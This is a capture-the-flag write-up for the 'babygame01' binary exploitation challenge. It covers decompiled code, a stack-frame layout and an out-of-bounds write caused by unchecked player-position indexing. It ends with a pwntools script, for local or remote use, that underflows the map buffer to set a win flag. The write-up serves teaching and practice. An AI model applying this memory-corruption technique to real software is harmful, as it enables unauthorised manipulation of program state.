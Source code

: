 # babygame01 #

## Overview ##

Category: [Binary Exploitation](../)

100 points

Tags: `#writewhatwhere #outofbounds #integermath #underflow`

## Description ##

Get the flag and reach the exit.

Welcome to BabyGame! Navigate around the map and see what you can find! The game is available to download here. There is no source available, so you'll have to figure your way around the map. 

## Approach ##

Began by disassembling the `game` binary within [Ghidra](https://ghidra-sre.org) and analysing the output.

Also checked the binary security with [pwntools](https://python3-pwntools.readthedocs.io/en/latest/index.html) `checksec` :

    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

Searching the disassembled output for references to `flag`, we find the `win()` function that opens and reads a `flag.txt` file and displays its contents to standard output. Following the incoming references  to this function (of which there is only one) the following conditional logic is found in `main()` :

    puts("You win!");
    if (local_aa4 != '\0') {
      puts("flage");
      win();
      fflush(stdout);
    }

To trigger this condition we must firstly win the game and the local variable `local_aa4` must be non-zero to drop the flag.

Visualising the local variables within the stack frame of `main()` from the disassembly, augmented with purpose from analysis of functions (`main()`, `init_player()` and `move_player()`) :

    (stack top - lower address)
      |                  |
      |      . . .       |
      | local_aac        | [$EBP - 0xAAC]               player_y_pos (or row in map)
      | local_aa8        | [$EBP - 0xAA8]               player_x_pos (or column in map)
      | local_aa4        | [$EBP - 0xAA4]  char         flag_win_condition (!= 0)
      | local_aa0        | [$EBP - 0xAA0]  char[2700]   map_buf  
      | local_14         | [$EBP - 0x14 ]
      | local_10         | [$EBP - 0x10 ]
      |      . . .       |
      |                  | 

`init_player()` takes the address of `local_aac` and writes three words, array indexing flowing into subsequent parameters of `main()` :

    local_aac[0] = 4                    = player_y_pos (or row in map)
    local_aac[1] = 4   ---> local_aa8   = player_x_pos (or column in map)
    local_aac[2] = 0   ---> local_aa4   = flag_win_condition (!= 0)

This also tells us our initial starting position is always `{ X, Y } = { 4, 4 }`.

`init_map()` confirms the purpose and ordering of the player position coordinates, as detailed above. It also exposes the exit position which is the game win condition, that is the player must reach { 29, 89 } = { 0x1d, 0x59 }.

Analysing `move_player(player_y_pos, input_char, map_buf)` for potential underflow/overflows, we fine the commands accepted to move our position around are:

    l = set player title to next character input from stdin
    p = solve the round (moves player automatically to the end point and game win condition)
    w = move up
    s = move down
    a = move left
    d = move right

The actual moving of the player position is achieved via the following code in `move_player()` :
  
    if (param_2 == 'w') {
      *param_1 = *param_1 + -1;
    }
    else if (param_2 == 's') {
      *param_1 = *param_1 + 1;
    }
    else if (param_2 == 'a') {
      param_1[1] = param_1[1] + -1;
    }
    else if (param_2 == 'd') {
      param_1[1] = param_1[1] + 1;
    }
    *(undefined *)(*param_1 * 0x5a + param_3 + param_1[1]) = player_tile;

or, substituing with our variable names and making the code a little easier to read :

    *map_buf[(player_y_pos * 0x5a) + player_x_pos)] = player_title

Two things we can notice here:

1. There is no bounds checking on position increment/decrement operations
2. These new player position values form the index of an array dereference

Therefore we have found the exploitable code, we control the player position values and hence can control the dereferenced array entry (and hence address) and the character that gets written there, forming a write-what-where primitive.

So our aim here will be to underflow the `map_buf` array and write a non-zero value to the `local_aa4` our flag_win_condition, which was initialised to zero by `init_player()`.

`local_aa4` immeditely preceeds the `map_buf[]` on the stack, as seen in our stack frame layout above, the player position is written as a single character (byte), as is the flag win condition test. `local_aa4` is 32-bit word aligned on the stack, hence we want to write to the Least Significant Byte (LSB), keeping in mind endianess. 

This means an effective position of { 0, -4 } will write the `player_title` character to the LSB of `local_aa4`.

## Solution ##

Plan of attack :

1. Move player position from `{ 4, 4 }` to `{ 0, -4 }`, this underflows the `map_buf[]` and writes the player's position character over `local_aa4` (satisfying the non-zero flag win condition)
2. Solve the round to end the game and test the flag win condition
3. Submit the flag

Final `pwntools` script used in the event :

    #!/usr/bin/env python3

    from pwn import *

    target_elf = ELF("./game")

    # command line support for local, remote and gdb modes
    if len(sys.argv) > 1:
      if "remote" in sys.argv:
        if len(sys.argv) > 3:
          target_proc = remote(sys.argv[2], sys.argv[3])
        else:
          print('usage: ./pwn-game.py remote <server> <port>')
          exit(1)
      elif "gdb" in sys.argv:
        target_proc = target_elf.process()
        gdb.attach(target_proc)
    else:
      target_proc = target_elf.process()

    target_proc.recvuntil(b'..X')
    target_proc.sendline(b'w'*4 + b'a'*8 + b'p')
    target_proc.recvuntil(b'You win!')
    target_proc.interactive()
